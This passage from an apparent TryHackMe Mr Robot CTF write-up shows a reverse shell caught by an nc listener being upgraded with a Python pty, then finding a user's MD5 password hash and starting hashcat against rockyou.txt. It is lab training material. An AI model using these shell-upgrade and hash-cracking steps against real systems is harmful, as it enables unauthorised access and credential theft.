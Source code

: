 - Upgrade the shell

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ export TERM=xterm
export TERM=xterm
daemon@linux:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234

root@kali:~/Desktop/CTF/TryHackMe/mr_robot_ctf# stty raw -echo; fg
nc -lvnp 1234

daemon@linux:/$ ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv	tmp  var
boot  etc  initrd.img  lib64  media	  opt  root  sbin  sys	usr  vmlinuz
daemon@linux:/$ cd 
```

## Key 2

- The key 2 file is located in **robot** user's directory.
- But the permission is denied.
- Still we can find the **md5 hash** of robot's password.

```bash
daemon@linux:/$ cd home
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot/
daemon@linux:/home/robot$ ls
key-2-of-3.txt	password.raw-md5

daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied

daemon@linux:/home/robot$ file key-2-of-3.txt 
key-2-of-3.txt: regular file, no read permission

sudo: 1 incorrect password attempt
daemon@linux:/home/robot$ cat password.raw-md5 
robot:REDACTED
```

- Cracking the hash using `hashcat`:

```bash
hashcat REDACTED /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 2886/2950 MB (1024 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
```